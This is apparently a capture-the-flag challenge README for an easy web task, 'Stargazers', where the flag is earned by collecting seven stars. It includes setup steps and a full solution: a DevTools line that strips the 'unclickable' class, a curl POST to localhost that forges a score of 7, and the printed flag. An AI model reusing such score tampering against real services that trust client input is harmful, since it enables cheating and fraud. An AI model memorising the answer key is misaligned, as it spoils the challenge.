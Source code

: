 # Stargazers

#### Category: Web Exploitation

#### Difficulty: Easy

#### Description: Catching stars is incredible.  All you need to do is collect seven of them, and I will give you the reward.

#### Preview:

![image](https://github.com/user-attachments/assets/a59a2bff-7c28-4829-a11f-01bbd2bb1c1b)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Access challenge website
Access to `http://localhost:8080`

## Solution
<details>

The web challenge needs the user to gather seven stars in order to earn the flag, which they may achieve by just clicking them.  However, there is a catch: if the score hits 6, the star will avoid the cursor and prevent the user from clicking it. We should examine the frontend source code to gather additional insights.

![image](https://github.com/user-attachments/assets/90a05488-0ca4-499a-bd36-6bb68825f8f4)

### Source Code (JS)

The 'unclickable' class preventing the object from being clicked when the score reaches to 6.

```javascript
if (score === 6) {
    object.classList.add('unclickable');
    object.style.backgroundImage = `url('/static/star.png')`; 
    moveAwayFromCursor(object);
}

function moveAwayFromCursor(object) {
    const moveInterval = setInterval(() => {
        const rect = object.getBoundingClientRect();

        const cursorX = window.cursorX || 0;
        const cursorY = window.cursorY || 0;

        const objectX = rect.left + rect.width / 2;
        const objectY = rect.top + rect.height / 2;

        const dx = objectX - cursorX;
        const dy = objectY - cursorY;

        const distance = Math.sqrt(dx * dx + dy * dy);

        if (distance < 150) {
            const angle = Math.atan2(dy, dx);
            const moveDistance = 15;

            let newLeft = rect.left + Math.cos(angle) * moveDistance;
            let newTop = rect.top + Math.sin(angle) * moveDistance;

            if (newLeft < 0 || newLeft > window.innerWidth - rect.width ||
                newTop < 0 || newTop > window.innerHeight - rect.height) {
                newLeft = Math.random() * (window.innerWidth - rect.width);
                newTop = Math.random() * (window.innerHeight - rect.height);
            }

            object.style.left = `${newLeft}px`;
            object.style.top = `${newTop}px`;
        }
    }, 30);
}
```

Server accepts JSON data as score directly from the client side without proper validation.

```javascript
fetch('/victory', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
    body: JSON.stringify({ score: score }),
  })
  .then(response => response.json())
  .then(data => {
      messageBox.textContent = data.message;
    
    if (data.message.includes("ICTF25{")) {
      messageBox.textContent = "Congrats! Here's Your Flag: " + data.message;
  }
})
.catch(error => {
  console.error('Error:', error);
  messageBox.textContent = 'Error submitting score.';
});
```

To solve this challenge, there's two solution:

### Method 1
Removing the 'unclickable' class using DevTools.

`document.querySelector('.unclickable').classList.remove('unclickable');`

### Method 2
Sending the score as JSON directly to server side.

`curl -X POST http://localhost:5000/victory -H 'Content-Type: application/json' -d '{"score":7}'`

We will obtain the flag by using either of these solutions.

<br>

![image](https://github.com/user-attachments/assets/e95af152-47dd-4947-be97-00dc9d27ac8b)

### Flag
> ICTF25{0e9ce052105ac660739950879a243734615e41baca30fa2892646f3bc9307c8e}

</details>
